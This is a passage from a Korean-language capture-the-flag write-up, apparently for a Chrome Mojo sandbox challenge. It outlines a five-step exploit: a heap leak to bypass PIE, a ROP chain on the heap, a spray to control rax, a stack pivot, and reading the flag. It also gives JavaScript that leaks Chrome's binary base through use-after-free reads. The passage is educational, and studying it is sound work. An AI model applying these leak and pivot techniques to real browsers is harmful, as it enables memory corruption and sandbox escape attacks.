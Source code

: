 취약점을 트리거 하면 위와같은 모습이다. `call qword ptr [rax + 0x160]` 에서 크래시가 발생하며 rax가 이상한 값으로 덮혀있는 것을 확인할 수 있다.

# 2. Exploit

exploit은 여러가지 방법으로 시도할 수 있다. 시도한 방법은 아래와 같다.

1. memory leak 취약점을 이용해 chrome binary base를 구한다. (pie 우회)
2. 원하는 값이 있고 주소를 아는 heap 메모리를 만든다. (rop chain 구성을 위해서)
3. spray를 통해 rax를 heap 메모리로 변경한다.
4. push rax; pop rsp; ret 가젯을 통해 스택을 피벗한다.
5. flag를 읽는다.

### 1. chrome binary base 주소 구하기

```jsx
async function leak_pie() {
    ptr = new blink.mojom.PlaidStorePtr()
    Mojo.bindInterface(blink.mojom.PlaidStore.name, mojo.makeRequest(ptr).handle , 'context', true);

    var spr = [];
	  var arr = new Uint8Array(0x1);
	  arr.fill(0x47);
	  for (var i = 0; i < 0x100; i++) {
	      spr.push(new blink.mojom.PlaidStorePtr())
	      Mojo.bindInterface(blink.mojom.PlaidStore.name, mojo.makeRequest(spr[i]).handle , 'context', true);
	      spr[i].storeData('key', arr);
	  }
	  for (var i = 0; i < 0x100; i++) {
	      spr[i].ptr.reset();
	  }

    var arr = new Uint8Array(0x30);
    ptr.storeData("key", arr);
    var tmp = await ptr.getData("key", 1000000);
    var tmp2 = new Uint8Array(tmp.data);
    var tmp3 = new Uint32Array(tmp2.buffer);

    // find pie
    for (var i = 0; i < 10000; i++) {
        if ((tmp3[i] & 0x0fff) == 0x9d0) {
            pie = (tmp3[i+1] * 0x100000000) + tmp3[i] - 0x2d5f9d0;
        }
        if (pie != 0) {
            break;
        }
    }
  }
```

PlaidStoreImpl 객체 안에는 vtable처럼 chrome binary base 주소를 알아낼 수 있는 값이 존재한다. 따라서 PlaidStoreImpl를 할당받고 free한 뒤에 비슷한 크기로 chunk를 할당받아 그 위치부터 힙을 읽다 보면 환경에 상관없이 항상 binary base를 구할 수 있었다.
